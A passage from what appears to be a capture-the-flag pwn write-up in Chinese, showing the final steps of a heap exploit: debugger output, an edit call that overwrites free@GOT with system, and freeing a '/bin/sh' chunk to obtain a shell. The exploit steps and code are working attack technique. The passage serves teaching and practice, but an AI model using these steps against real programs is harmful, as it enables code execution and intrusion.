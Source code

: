 **STEP7** 编辑节点，覆写free@GOT为system，然后free('/bin/sh')即为system('/bin/sh')
先通过telescope查看全局变量处的节点结构体列表itemlist，确定下目标节点的下标

```
pwndbg> telescope 0x6020C0
pwndbg> telescope 0x6020C0 20
00:0000│   0x6020c0 (itemlist) ◂— 0x50                                      # 0号节点
01:0008│   0x6020c8 (itemlist+8) —▸ 0x1862030 ◂— '0000000000000000000
02:0010│   0x6020d0 (itemlist+16) ◂— 0x50                                   # 1号节点
03:0018│   0x6020d8 (itemlist+24) —▸ 0x1862090 ◂— 'xxxxxxxx'
04:0020│   0x6020e0 (itemlist+32) ◂— 0x50                                   # 2号节点
05:0028│   0x6020e8 (itemlist+40) —▸ 0x18620f0 ◂— 0x2e70243731252e /* '.%17$p.' */
06:0030│   0x6020f0 (itemlist+48) ◂— 0x50                                   # 3号节点
07:0038│   0x6020f8 (itemlist+56) —▸ 0x60200a (_GLOBAL_OFFSET_TABLE_+10) ◂— 0x0
08:0040│   0x602100 (itemlist+64) ◂— 0x0
... ↓
pwndbg>
```

可以看到改第3个结构体就可以改free got，同样也只发送6字节避免off by null影响。

```
edit(3, 0x50, flat('\0' * 14, flat(libc.sym['system'])[:6]))
```

运行并调试查看got表，已经被覆盖成system地址

```
pwndbg> got
GOT protection: Partial RELRO | GOT functions: 12
[0x602018] free@GLIBC_2.2.5 -> 0x7f9070179390 (system) ◂— test   rdi, rdi
[0x602020] puts@GLIBC_2.2.5 -> 0x7f90701a3690 (puts) ◂— push   r12
[0x602028] __stack_chk_fail@GLIBC_2.4 -> 0x4006f6 (__stack_chk_fail@plt+6) ◂— push   2
[0x602030] printf@GLIBC_2.2.5 -> 0x7f9070189800 (printf) ◂— sub    rsp, 0xd8
[0x602038] close@GLIBC_2.2.5 -> 0x400716 (close@plt+6) ◂— push   4
```

**STEP8** 新增节点，构造/bin/sh参数，并调用free('/bin/sh')即system('/bin/sh')，成功获得shell

```
add(0x10, "/bin/sh\0")
delete(2)
```

其中节点标号2可以通过梳理逻辑确定，也可以通过telescope命令确定：

```
pwndbg> telescope 0x6020c0
00:0000│   0x6020c0 (itemlist) ◂— 0x50                                   # 0号节点
01:0008│   0x6020c8 (itemlist+8) —▸ 0x12bb030 ◂— '00000000000....
02:0010│   0x6020d0 (itemlist+16) ◂— 0x50                                # 1号节点
03:0018│   0x6020d8 (itemlist+24) —▸ 0x12bb090 ◂— 'xxxxxxxx'
04:0020│   0x6020e0 (itemlist+32) ◂— 0x10                                # 2号节点
05:0028│   0x6020e8 (itemlist+40) —▸ 0x12bb150 ◂— 0x68732f6e69622f /* '/bin/sh' */
06:0030│   0x6020f0 (itemlist+48) ◂— 0x50
07:0038│   0x6020f8 (itemlist+56) —▸ 0x60200a (_GLOBAL_OFFSET_TABLE_+10) ◂— 0x0   
```
